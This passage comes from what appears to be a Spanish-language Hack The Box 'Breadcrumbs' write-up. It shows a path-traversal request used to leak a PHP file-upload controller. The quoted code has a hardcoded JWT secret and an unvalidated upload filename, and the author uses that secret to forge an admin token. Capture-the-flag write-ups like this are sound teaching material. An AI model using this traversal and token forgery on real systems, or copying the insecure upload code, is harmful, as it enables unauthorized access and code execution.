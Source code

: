 ![316burp_err_up_zipF_x_tokenErr](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316burp_err_up_zipF_x_tokenErr.png)

Si borramos la cookie `token` obtenemos este error:

![316page80_err_up_zipF_x_tokenErr](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316page80_err_up_zipF_x_tokenErr.png)

```php
book=../portal/includes/fileController.php&method=1
```

```php
<?php

$ret = "";
require "../vendor/autoload.php";
use \Firebase\JWT\JWT;
session_start();
function validate(){    
    $ret = false;  
    $jwt = $_COOKIE['token'];    
    $secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e'; 
    $ret = JWT::decode($jwt, $secret_key, array('HS256')); 
    return $ret;
}
if($_SERVER['REQUEST_METHOD'] === "POST"){
    $admins = array("paul");
    $user = validate()->data->username; 
    if(in_array($user, $admins) && $_SESSION['username'] == "paul"){
        error_reporting(E_ALL & ~E_NOTICE);
        $uploads_dir = '../uploads';
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_POST['task'];
        if(move_uploaded_file($tmp_name, "$uploads_dir/$name")){
            $ret = "Success. Have a great weekend!";
        }
        else{
        $ret = "Missing file or title :(" ;      
        }
    }
    else{
    $ret = "Insufficient privileges. Contact admin or developer to upload code. Note: If you recently registered, please wait for one of our admins to approve it.";
    }
    echo $ret;
}
```

Vemos el proceso por el que pasa el archivo que subamos (no hay validación de nada :O) y la carpeta en la que queda guardado: `/uploads`.

* [Siguiendo este post, podemos ver que hay detrás de la cadena **token**](https://habr.com/en/post/450054/).

Usando [esta web](https://jwt.io/) también vemos como esta conformado el `token` y asi mismo podemos modificarla para generar la de `paul`:

